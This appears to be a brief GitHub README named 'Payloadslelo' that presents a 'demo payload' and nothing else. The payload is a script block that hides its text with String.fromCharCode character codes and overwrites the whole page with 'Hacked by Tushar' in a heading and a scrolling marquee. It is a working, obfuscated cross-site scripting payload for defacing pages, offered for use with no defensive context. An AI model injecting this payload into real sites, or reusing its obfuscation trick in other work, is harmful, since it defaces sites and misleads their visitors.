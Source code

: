 # Payloadslelo
MLVTEC Demo Payload


Here is the payload

```<script>
    document.documentElement.innerHTML = String.fromCharCode(
        60, 104, 49, 62, 72, 97, 99, 107, 101, 100, 32, 98, 121, 32, 84, 117, 115, 104, 97, 114, 60, 47, 104, 49, 62, 
        60, 109, 97, 114, 113, 117, 101, 101, 62, 72, 97, 99, 107, 101, 100, 32, 98, 121, 32, 84, 117, 115, 104, 97, 114, 60, 47, 109, 97, 114, 113, 117, 101, 101, 62
    );
</script>```
